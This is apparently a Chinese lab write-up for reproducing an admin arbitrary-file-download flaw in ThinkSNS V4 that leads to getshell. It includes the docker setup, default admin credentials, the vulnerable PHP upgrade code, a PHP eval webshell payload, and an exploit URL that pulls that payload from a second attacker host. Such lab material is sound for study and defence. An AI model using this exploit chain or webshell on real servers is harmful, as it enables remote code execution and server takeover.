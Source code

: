 ## 环境编译

```
docker-compose build
docker-compose up -d
```
## 漏洞介绍

ThinkSNS_V4 后台任意文件下载导致Getshell

默认后台地址：http://127.0.0.1/index.php?app=admin&mod=Public&act=login
默认用户密码：管理员帐号: admin@admin.com 密码:123456



存在漏洞代码\ts4\apps\admin\Lib\Action\UpgradeAction.class.php中的一个函数中。
`
public function step1()
{
    $downUrl = $_GET['upurl'];
    $downUrl = urldecode($downUrl);
    $path = DATA_PATH.'/'.'upgrade/'.basename($downUrl);

    // # 备份老配置文件
    $oldConf = file_get_contents(CONF_PATH.'/thinksns.conf.php');
    file_put_contents(DATA_PATH.'/old.thinksns.conf.php', $oldConf);

    // # 下载增量包
    is_dir(dirname($path)) or mkdir(dirname($path), 0777, true);
    file_put_contents($path, file_get_contents($downUrl));
    file_exists($path) or $this->showError('下载升级包失败，请检查'.dirname($path).'目录是否可写，如果可写，请刷新重试！');

    // 验证hash判断包是否合法。
    $filename = dirname($path).'/upgrade.json';
    $data = file_get_contents($filename);
    $data = json_decode($data, false);
    if (md5_file($path) != $data->md5) {
        $this->showError('更新包校验失败，请重新执行升级.');
    }
`
函数

file_put_contents — 将一个字符串写入文件
file_get_contents — 将整个文件读入一个字符串
在这段函数中，先备份老配置文件，然后下载增量包，下载参数$downUrl未经过任何处理，直接下载到网站目录下，接着验证hash判断包是否合法，但是并没有删除下载的增量包， 导致程序在实现上存在任意文件下载漏洞，下载远程文件到网站目录下，攻击者可指定第三方url下载恶意脚本到网站目录，进一步触发恶意代码，控制网站服务器。

在一台web服务器的根目录下写入

`
<?php
echo "<?php ";
echo "eval(file_get_contents('php://input'));";
echo " ?>";
?>
`
先登录后台

然后访问
**http://127.0.0.1:8001/index.php?app=admin&mod=Upgrade&act=step1&upurl=http://10.0.0.211:81/door.php**

![](luffy1.png)

然后会在data\upgrade出现下载的door.php文件。

![](luffy2.png)

最后可以代码执行了

![](luffy3.png)




[漏洞介绍](https://mp.weixin.qq.com/s?__biz=MzA3NzE2MjgwMg==&mid=2448903598&idx=1&sn=597d488c492fca52b49b0f5ddddcadb8&chksm=8b55ddf3bc2254e5135ff7f9a10cdde3ce710e32d53fb4575b02411a9b3bbe23ec26207f8196&mpshare=1&scene=23&srcid=0311KzWTeNcTSxfCLzcIRd7F#rd)

